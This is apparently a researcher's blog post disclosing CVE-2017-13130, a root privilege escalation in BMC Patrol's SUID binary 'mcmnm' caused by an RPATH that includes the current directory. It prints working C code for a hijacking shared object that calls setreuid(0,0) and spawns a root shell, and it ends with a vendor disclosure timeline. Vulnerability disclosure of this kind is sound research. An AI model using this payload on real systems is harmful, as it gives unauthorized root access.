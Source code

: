 ```yaml
---
title: "CVE-2017-13130 - BMC Patrol 'mcmnm' - Privilege Escalation via a Vulnerable SUID Binary"
layout: "post"
categories: [ "Privilege Escalation" ]
tags: [ "Research", "Vulnerability", "Privilege Escalation", "Exploit" ]
---
```


A vulnerability was discovered in the `mcmnm` binary. It is compiled with a `RPATH` starting with `.:`. Therefore, any user can craft a malicious library (e.g.: `libmcmclnx.so`) and then run `mcmnm` from the same directory to execute code as _root_.


![](/assets/posts/2018-06-06-bmc-patrol-mcmnm-privesc/00_exploit-demo.gif)

## Vulnerability analysis 

### File permissions

The `mcmnm` file is a `SUID` binary owned by _root_ and executable by everyone.

![](/assets/posts/2018-06-06-bmc-patrol-mcmnm-privesc/01_file-permissions_obf.png)

### Vulnerable RPATH

The binary's `RPATH` contains the unsecure path `.`. As a reminder, `RPATH` is the _run-time search path_. It can be used to specify the location of Shared Objects that will be loaded before any other library because the linker gives them a higher priority. Therefore, if a local user can create a custom Shared Object in one of these folders, then he/she will be able to hijack the execution flow of the program. In the present case, `.` can be regarded as a sort of wildcard, hence the obvious vulnerability.

![](/assets/posts/2018-06-06-bmc-patrol-mcmnm-privesc/02_readelf-rpath_obf.png)

### A quick dynamic analysis using `strace`

Thanks to `strace` we can see which SO files the binary tries to load and from where. For example, it tries to load `libmcmclnx.so'` from the current folder (because of the `.` in the `RPATH`). 

![](/assets/posts/2018-06-06-bmc-patrol-mcmnm-privesc/03_strace_obf.png)

## Exploit development 

### Shared Object hijacking
The exploit is quite simple as a local attacker only has to craft a malicious Shared Object file and execute the vulnerable binary from the same folder. The following code will spawn a _root_ shell as soon as the Object is loaded (similar to `DllMain` with Windows DLL).

```c
#include <stdio.h>
#include <stdlib.h>

static void so_hijacking() __attribute__((constructor));

void so_hijacking() {
    setreuid(0, 0);
    system("/bin/sh");
    exit(0);
}

void GetSysInfo() {}
```


### The exploit code 

The exploit was wrapped in a single script file. The first line (`BIN=/path/to/mcmnm`) must be modified to match the current installation of the Patrol package. If all goes well, you should get a _root_ shell. ;)

![](/assets/posts/2018-06-06-bmc-patrol-mcmnm-privesc/05_exploit_obf.png)

## Disclosure timeline

2017-04-21 - Vulnerability discovered  
2017-05-09 - Vendor contacted  
2017-06-05 - Still no response, reminder sent to vendor  
2017-08-22 - Still no response, vulnerability disclosed  

